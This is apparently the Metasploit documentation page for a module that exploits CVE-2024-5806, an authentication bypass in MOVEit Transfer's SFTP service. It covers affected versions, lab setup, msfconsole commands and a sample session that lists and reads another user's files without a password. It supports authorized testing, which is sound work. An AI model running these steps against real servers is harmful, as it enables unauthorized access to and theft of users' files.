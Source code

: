 ## Vulnerable Application
This module exploits CVE-2024-5806, an authentication bypass vulnerability in the MOVEit Transfer SFTP service. The
following version are affected:

* MOVEit Transfer 2023.0.x (Fixed in 2023.0.11)
* MOVEit Transfer 2023.1.x (Fixed in 2023.1.6)
* MOVEit Transfer 2024.0.x (Fixed in 2024.0.2)

The module can establish an authenticated SFTP session for a MOVEit Transfer user. The module allows for both listing
the contents of a directory, and the reading of an arbitrary file.

## Testing
1. Installation requires a valid trial license that can be obtained by going here:
   https://www.ipswitch.com/forms/free-trials/moveit-transfer
2. Ensure that your computer has internet access for the license to activate and double-click the installer.
3. Follow installation instructions for an evaluation installation.
4. After the installation completes, follow the instructions to create an sysadmin user.
5. Log in as the sysadmin and create a new Organization (e.g. `TestOrg`).
6. In the `Home` section, click the "Act as administrator in the TestOrg organization" button.
7. In the `Users` section, create a new normal user (e.g. `testuser1`) in the new Organization.
8. In the `Folders` section, navigate the `testuser1` Home folder and create some files and folders.
9. The SFTP service will be running by default. No further configuration is required.

## Verification Steps

1. Start msfconsole
2. `use auxiliary/gather/progress_moveit_sftp_fileread_cve_2024_5806`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set STORE_LOOT false`
5. `set TARGETUSER <TARGET_USERNAME>`
6. `set TARGETFILE /`
7. `check`
8. `run`

## Options

### STORE_LOOT
Whether the read file's contents should be stored as loot in the Metasploit database. If set to false, the files
content will be displayed in the console. (default: true).

### TARGETUSER
A valid username to authenticate as. (default: nil).

### TARGETFILE
The full path of a target file or directory to read. If a directory path is specified, the output will be the
directories contents. If a file path is specified, the output will be the files contents. In order to learn
what files you can read, you cna first read the root directories (/) contents.(default: /).

## Scenarios

### Default

```
msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > set RHOST 169.254.180.121
RHOST => 169.254.180.121
msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > set STORE_LOOT false
STORE_LOOT => false
msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > set TARGETUSER testuser1
TARGETUSER => testuser1
msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > show options

Module options (auxiliary/gather/progress_moveit_sftp_fileread_cve_2024_5806):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   RHOSTS      169.254.180.121  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       22               yes       The target port
   STORE_LOOT  false            no        Store the target file as loot
   TARGETFILE  /                yes       The full path of a target file or directory to read.
   TARGETUSER  testuser1        yes       A valid username to authenticate as.


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > run
[*] Running module against 169.254.180.121

[*] Authenticating as: testuser1@169.254.180.121:22
[*] Listing directory: /
dr-xr-xr-x 1 0 0 0 Jun 23 16:19 /Home/
dr-xr-xr-x 1 0 0 0 Jun 18 22:50 /Home/testuser1/
dr-xr-xr-x 1 0 0 0 Jun 18 22:50 /Home/testuser1/TestFolder1/
-rw-rw-rw- 1 0 0 8 Jun 18 22:50 /Home/testuser1/test.txt
[*] Auxiliary module execution completed
msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > run TARGETFILE=/Home/testuser1/test.txt
[*] Running module against 169.254.180.121

[*] Authenticating as: testuser1@169.254.180.121:22
[*] Downloading file: /Home/testuser1/test.txt
secrets!
[*] Auxiliary module execution completed
msf6 auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > 
```
